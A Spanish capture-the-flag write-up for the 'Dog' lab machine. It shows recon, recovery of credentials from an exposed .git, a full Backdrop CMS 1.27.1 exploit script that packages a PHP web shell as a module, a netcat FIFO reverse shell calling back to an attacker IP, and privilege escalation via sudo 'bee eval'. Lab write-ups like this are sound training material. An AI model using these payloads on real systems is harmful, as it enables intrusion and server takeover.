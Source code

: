 ```yaml
---
title: "Dog"
date: "2025-03-08T00:04:43-05:00"
type: "maquinas"
draft: true
tags: ["backdrop", "bee", "linux", "sudoers", "git-dumper"]
---
```


### Descripción
Maquina sencilla en la que por medio de un git encontramos credenciales para poder luego hacer uso de un exploit con el cual obtendremos ejecucion de comandos para luego reusar las credenciales con los usuarios que podremos listar, para el root fue explotacion de un binario muy sencillo.

# Enumeración

```jsx
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn IP -oG allports
sudo nmap -sCV -p22,80 "$ip_target" -A -oN target
```
<a href="https://imgur.com/tzfb8Ub"><img src="https://i.imgur.com/tzfb8Ub.png" title="source: imgur.com" /></a>

Encontramos un git por lo que vamos a usar git-dumper y tratar de restaurar el git, pero primero vamos a instalar la herramienta.

```jsx
pipx install git-dumper
git-dumper http://IP/.git git
cd git
git reset --hard
cat settings.php
```

Y ahí tendremos una contraseña:

<a href="https://imgur.com/a38Rciw"><img src="https://i.imgur.com/a38Rciw.png" title="source: imgur.com" /></a>

Para hallar usuarios validos lo vamos a hacer tambien en el git usando grep de la siguiente forma:

```jsx
grep -r -i -l '@dog.htb' . 2>/dev/null
```

<a href="https://imgur.com/wXcZRsI"><img src="https://i.imgur.com/wXcZRsI.png" title="source: imgur.com" /></a>

# Puerto 80

Ahora con ese usuario y contraseña podemos ingresar, si miramos por la pagina encontraremos la verison en el link http://IP/?q=admin/reports/updates

<a href="https://imgur.com/C3nuz53"><img src="https://i.imgur.com/C3nuz53.png" title="source: imgur.com" /></a>

Y si buscamos encontraremos una vulnerabilidad de esta version [Exploit](https://www.exploit-db.com/exploits/52021).

# Exploit

Vamos a modificar el script para que en vez de .zip nos lo guarde en el formato aceptado .tar.gz

```jsx
import os
import time
import tarfile

def create_files():
    info_content = """
    type = module
    name = Block
    description = Controls the visual building blocks a page is constructed
    with. Blocks are boxes of content rendered into an area, or region, of a<a href="https://imgur.com/4H7qVEl"><img src="https://i.imgur.com/4H7qVEl.png" title="source: imgur.com" /></a>
    web page.
    package = Layouts
    tags[] = Blocks
    tags[] = Site Architecture
    version = BACKDROP_VERSION
    backdrop = 1.x

    configure = admin/structure/block

    ; Added by Backdrop CMS packaging script on 2024-03-07
    project = backdrop
    version = 1.27.1
    timestamp = 1709862662
    """
    shell_info_path = "shell/shell.info"
    os.makedirs(os.path.dirname(shell_info_path), exist_ok=True)  # Crea el directorio
    with open(shell_info_path, "w") as file:
        file.write(info_content)

    shell_content = """
    <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?php
    if(isset($_GET['cmd']))
    {
    system($_GET['cmd']);
    }
    ?>
    </pre>
    </body>
    </html>
    """
    shell_php_path = "shell/shell.php"
    with open(shell_php_path, "w") as file:
        file.write(shell_content)
    return shell_info_path, shell_php_path

def create_tar(info_path, php_path):
    tar_filename = "shell.tar.gz"
    with tarfile.open(tar_filename, 'w:gz') as tarf:
        tarf.add(info_path, arcname='shell/shell.info')
        tarf.add(php_path, arcname='shell/shell.php')
    return tar_filename

def main(url):
    print("Backdrop CMS 1.27.1 - Remote Command Execution Exploit")
    time.sleep(3)

    print("Evil module generating...")
    time.sleep(2)

    info_path, php_path = create_files()
    tar_filename = create_tar(info_path, php_path)

    print("Evil module generated!", tar_filename)
    time.sleep(2)

    print("Go to " + url + "/admin/modules/install and upload the " +
          tar_filename + " for Manual Installation.")
    time.sleep(2)

    print("Your shell address:", url + "/modules/shell/shell.php")

if __name__ == "__main__":
    import sys
    if len(sys.argv) < 2:
        print("Usage: python script.py [url]")
    else:
        main(sys.argv[1])
```

<a href="https://imgur.com/VJTtoEe"><img src="https://i.imgur.com/VJTtoEe.png" title="source: imgur.com" /></a>

Vamos a usar la siguiente revshell:

```bash
#Nuestra maquina
nc -lvnp 4444

#Pagina
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc IP 4444 >/tmp/f
```

# Usuario

Si listamos usuarios en el home veremos dos usuarios:

<a href="https://imgur.com/XK8ClEV"><img src="https://i.imgur.com/XK8ClEV.png" title="source: imgur.com" /></a>

Usando de nuevo la contraseña que teniamos con johncusak tendremos acceso a la flag de usuario.

# Root

Si listamos permisos sudoers tendremos el bin  `bee` :

<a href="https://imgur.com/zImnC79"><img src="https://i.imgur.com/zImnC79.png" title="source: imgur.com" /></a>

Si ejecutamos el binario veremos lo que podemos hacer, entre esas opciones hay una muy interesante en la cual podemos ejecutar codigo php:

<a href="https://imgur.com/4H7qVEl"><img src="https://i.imgur.com/4H7qVEl.png" title="source: imgur.com" /></a>

Con esta información vamos a tratar de obtener una bash como root:

```bash
sudo bee eval "shell_exec('/bin/bash');”
```

Y listo root facilito e interesante solo tocaba leer.
